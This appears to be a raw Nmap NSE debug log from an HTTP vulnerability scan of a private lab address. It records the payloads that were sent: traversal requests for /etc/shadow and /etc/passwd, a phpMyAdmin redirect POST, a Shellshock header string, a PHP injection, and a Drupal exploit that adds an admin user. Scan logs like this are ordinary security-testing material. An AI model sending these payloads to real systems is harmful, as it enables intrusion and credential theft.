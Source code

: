 ```lua
NSE: [http-litespeed-sourcecode-download 192.168.50.161:8080] Trying to download the source code of /index.php
NSE: Starting http-tplink-dir-traversal against 192.168.50.161:8080.
NSE: [http-tplink-dir-traversal 192.168.50.161:8080] HTTP GET /help/../../etc/shadow
NSE: Starting http-vuln-cve2009-3960 against 192.168.50.161:8080.
NSE: Starting http-majordomo2-dir-traversal against 192.168.50.161:8080.
NSE: [http-majordomo2-dir-traversal 192.168.50.161:8080] HTTP GET maverick/cgi-bin/mj_wwwusr?passw=&list=GLOBAL&user=&func=help&extra=/../../../../../../../../etc/passwd
NSE: Starting http-phpmyadmin-dir-traversal against 192.168.50.161:8080.
NSE: [http-phpmyadmin-dir-traversal 192.168.50.161:8080] HTTP POST maverick/phpMyAdmin-2.6.4-pl1/libraries/grab_globals.lib.php
NSE: [http-phpmyadmin-dir-traversal 192.168.50.161:8080] POST DATA usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../../etc/passwd&subform[1][cXIb8O3]=1
NSE: Starting http-adobe-coldfusion-apsa1301 against 192.168.50.161:8080.
NSE: Starting http-vuln-cve2013-0156 against 192.168.50.161:8080.
NSE: Starting http-avaya-ipoffice-users against 192.168.50.161:8080.
NSE: Starting http-vuln-cve2013-7091 against 192.168.50.161:8080.
NSE: [http-vuln-cve2013-7091 192.168.50.161:8080] Trying to detect if the server is vulnerable
NSE: [http-vuln-cve2013-7091 192.168.50.161:8080] GET /zimbra/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../dev/null%00
NSE: [http-vuln-cve2013-7091 192.168.50.161:8080] GET /zimbra/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../etc/passwd%00
NSE: Starting http-vuln-cve2013-6786 against 192.168.50.161:8080.
NSE: Starting http-awstatstotals-exec against 192.168.50.161:8080.
NSE: Starting http-vuln-cve2014-3704 against 192.168.50.161:8080.
NSE: [http-vuln-cve2014-3704 192.168.50.161:8080] adding admin user (username: 'jsagzdokcc'; passwd: 'tdepegflbm')
NSE: Starting http-axis2-dir-traversal against 192.168.50.161:8080.
NSE: Starting http-dlink-backdoor against 192.168.50.161:8080.
NSE: Starting http-vuln-wnr1000-creds against 192.168.50.161:8080.
NSE: Starting http-coldfusion-subzero against 192.168.50.161:8080.
NSE: Starting http-vuln-cve2014-8877 against 192.168.50.161:8080.
NSE: Starting http-huawei-hg5xx-vuln against 192.168.50.161:8080.
NSE: Starting http-vuln-cve2012-1823 against 192.168.50.161:8080.
NSE: Starting http-shellshock against 192.168.50.161:8080.
NSE: [http-shellshock 192.168.50.161:8080] Sending '() { :;}; echo; echo -n iikrkzh; echo dwqmjim' in HTTP headers:User-Agent,Cookie and Referer
NSE: Finished http-litespeed-sourcecode-download against 192.168.50.161:8080.
NSE: Finished http-tplink-dir-traversal against 192.168.50.161:8080.
NSE: Finished http-majordomo2-dir-traversal against 192.168.50.161:8080.
NSE: Finished http-adobe-coldfusion-apsa1301 against 192.168.50.161:8080.
NSE: Finished http-dlink-backdoor against 192.168.50.161:8080.
NSE: [http-avaya-ipoffice-users 192.168.50.161:8080] Unexpected response returned for 404 check: 429 Too Many Requests
NSE: Finished http-vuln-cve2013-6786 against 192.168.50.161:8080.
NSE: [http-awstatstotals-exec 192.168.50.161:8080] This does not look like Awstats Totals. Quitting.
NSE: Finished http-awstatstotals-exec against 192.168.50.161:8080.
NSE: Finished http-vuln-cve2014-3704 against 192.168.50.161:8080.
NSE: [http-axis2-dir-traversal 192.168.50.161:8080] This does not look like an Apache Axis2 installation.
NSE: Finished http-axis2-dir-traversal against 192.168.50.161:8080.
NSE: [http-vuln-cve2014-8877 192.168.50.161:8080] Sending GET '//cmdownloads/?CMDsearch=".base64_decode("cmt4dXlhZnRzaGJremti")."' request
NSE: Finished http-vuln-cve2014-8877 against 192.168.50.161:8080.
NSE: [http-huawei-hg5xx-vuln 192.168.50.161:8080] Unexpected response returned for 404 check: 429 Too Many Requests
NSE: Finished http-vuln-cve2012-1823 against 192.168.50.161:8080.
NSE: Finished http-phpmyadmin-dir-traversal against 192.168.50.161:8080.
NSE: Finished http-vuln-cve2013-0156 against 192.168.50.161:8080.
NSE: Finished http-avaya-ipoffice-users against 192.168.50.161:8080.
NSE: [http-vuln-cve2013-7091 192.168.50.161:8080] The website seems to be not vulnerable to this attack.
```